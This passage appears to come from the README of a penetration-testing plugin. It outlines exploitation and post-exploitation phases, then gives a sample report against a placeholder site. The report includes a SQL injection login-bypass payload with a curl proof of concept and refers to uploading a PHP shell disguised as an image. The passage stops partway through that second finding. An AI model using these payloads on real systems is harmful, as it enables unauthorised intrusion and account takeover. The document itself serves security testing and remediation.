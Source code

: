 ### 3. Exploitation
- SQL injection attempts
- XSS payload testing
- CSRF token bypass
- Authentication mechanism testing
- Authorization boundary testing

### 4. Post-Exploitation
- Privilege escalation paths
- Lateral movement opportunities
- Data access verification
- Persistence mechanisms

## Example Report

```
PENETRATION TEST REPORT
=======================
Target: https://example.com
Date: 2025-10-11
Tester: Claude Penetration Testing Plugin

EXECUTIVE SUMMARY
-----------------
Risk Rating: HIGH
Critical Findings: 2
High Findings: 4
Medium Findings: 8

CRITICAL FINDINGS
-----------------

1. SQL Injection in Login Form
   Location: /api/auth/login
   Method: POST
   Parameter: username

   Exploitation:
   POST /api/auth/login
   username=' OR '1'='1' --&password=anything

   Result: Authentication bypass successful
   Impact: Complete database access, user account takeover

   Proof of Concept:
   curl -X POST https://example.com/api/auth/login \
     -d "username=' OR '1'='1' --&password=test"

   Response: {"token": "eyJhbGc...", "user": "admin"}

   Remediation:
   - Use parameterized queries
   - Implement input validation
   - Add WAF rules
   - Code: db.query('SELECT * FROM users WHERE username = ?', [username])

2. Remote Code Execution via File Upload
   Location: /api/upload
   Method: POST
   Parameter: file

   Exploitation:
   Uploaded PHP shell disguised as image
```